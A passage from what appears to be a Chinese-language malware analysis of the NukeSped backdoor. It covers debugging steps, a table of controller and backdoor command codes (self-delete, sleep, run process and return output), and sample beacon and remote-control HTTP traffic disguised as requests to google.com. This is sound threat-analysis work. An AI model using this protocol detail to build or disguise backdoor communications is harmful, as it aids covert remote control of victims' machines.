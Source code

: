 2.调试 NukeSped 后门，在第二次执行 recv 函数处下断点；

3.当调试 NukeSped 后门时，在调试第二次执行 recv 函数前，步过上线请求响应程序中的断点，则 NukeSped 后门将成功接收上线请求响应载荷，后续即可正常调试。

## 通信模型分析

基于上述样本分析情况，梳理样本通信模型如下：

-   NukeSped 后门 --> NukeSped 控制端

| 通信命令 | 命令描述 |
| --- | --- |
| 10  | 初始连接 |
| 30  | 命令执行成功 |
| 35  | 命令执行失败 |

-   NukeSped 控制端 --> NukeSped 后门

| 通信命令 | 命令描述 |
| --- | --- |
| 11  | 样本自删除 |
| 12  | 休眠 1 小时 |
| 30  | 向管道传输数据 |
| 33  | 创建进程，并返回进程回显信息 |
| 34  | 终止 33 指令运行的进程程序 |

详细通信数据如下：

### 上线请求

```bash
POST /login.php HTTP/1.1 
Host: www.google.com
Connection: keep-alive
Cache-Control: max-age=0
Sec-Fetch-Mode: 10
Sec-Fetch-User: S-WIN-XXXXXXX
Sec-Fetch-Dest: 01
```

### 远控功能

通过分析，样本上线后，上线响应即用于远程控制，通信载荷如下：

-   远控指令 33

```bash
#远控指令
HTTP/1.1 200 OK 
Content-Type: text/html
Sec-Fetch-Mode: 33
Content-Length: 18

..................  #加密载荷

#远控指令回显
GET http://www.google.com/search?q&cp=0&xssi=t&hl=en&authuser=1&nolsbt=1&dpr=1 HTTP/1.1 
Sec-Fetch-Mode: 30
Content-Length: 00000023
Connection: keep-alive

....................... #加密载荷
```